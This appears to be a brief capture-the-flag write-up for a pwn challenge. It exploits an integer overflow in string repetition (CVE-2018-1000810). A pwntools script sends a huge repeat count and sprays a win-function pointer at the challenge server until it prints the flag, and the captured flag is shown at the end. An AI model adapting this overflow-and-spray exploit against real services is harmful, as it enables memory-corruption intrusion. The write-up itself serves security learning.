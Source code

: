 CVE-2018-1000810  
1.  Calculate overflow size  
2.  Spray win address  
3.  ????  
4.  PROFIT

The script is not reliable, so better monitor debug log.

```  
from pwn import *

NUM_REPEATS = 2305843009213693953  
WIN = 0x30f620  
WIN_PTR = 0x701E40  
while True:  
	r = remote("challenges.fbctf.com",1342)  
	try:  
		r.sendlineafter("6","1")  
		r.sendlineafter("Name: ",p64(WIN_PTR))  
		r.sendlineafter("Description: ","")  
		r.sendlineafter("Price:","1.0")  
		r.sendlineafter("\n","4")  
		r.sendlineafter("add: ","1")  
		r.sendlineafter("Count: ",str(NUM_REPEATS))  
		r.sendlineafter("\n","6")  
		flag = r.recvuntil("}")  
		log.success("FLAG : "+flag+"}")  
		pause()  
		r.close()  
	except:  
		try:  
			r.close()  
		except:  
			pass  
	NUM_REPEATS += 1  
r.interactive()

```

FLAG : fb{s4f3_l4nguag3s_arent_always_safe}